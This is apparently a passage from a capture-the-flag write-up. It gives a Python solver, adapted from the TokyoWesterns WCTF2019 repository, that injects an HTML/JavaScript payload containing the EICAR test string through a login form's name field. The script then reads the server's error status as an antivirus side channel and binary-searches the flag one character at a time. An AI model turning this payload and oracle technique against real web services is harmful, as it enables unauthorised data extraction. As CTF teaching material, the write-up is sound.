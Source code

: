 We can modifiy the solution script that's in the TokyoWesterns
[repo](https://github.com/icchy/wctf2019-gtf/blob/master/solver/solve.py) to
work with this challenge:

```python
import requests
import string

URL = "http://localhost" # Change this to challenge URL

def randstr(n=8):
    import random
    import string
    chars = string.ascii_uppercase + string.ascii_lowercase + string.digits
    return ''.join([random.choice(chars) for _ in range(n)])

def trigger(c, idx):
    print("[*] Triggering on {}[{}] at index {}".format(chr(c), c, idx))
    prefix = randstr()

    p = prefix + '''<html><script>f=function(n){eval('X5O!P%@AP[4\\\\PZX54(P^)7CC)7}$$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$$H+H'+{${c}:'*'}[Math.min(${c},n)])};f(document.body.innerHTML[${idx}].charCodeAt(0));</script>'''

    p = string.Template(p).substitute({'idx': idx, 'c': c})

    sess = requests.session()
    data = {
        "realname": "{}<body>".format(p),
        "nickname": "HACKX</body>",
    }

    sess.post(URL + '/?action=login', data=data)
    return sess.get(URL + "/?action=getflag").status_code

def leak(idx):
    l, h = 0, 0x100
    while h - l > 1:
        m = (h + l) // 2

        if trigger(m, idx) == 500:
            l = m
        else:
            h = m

    return chr(l)

data = ''
for i in range(30):
    data += leak(i)
    print(data)
```
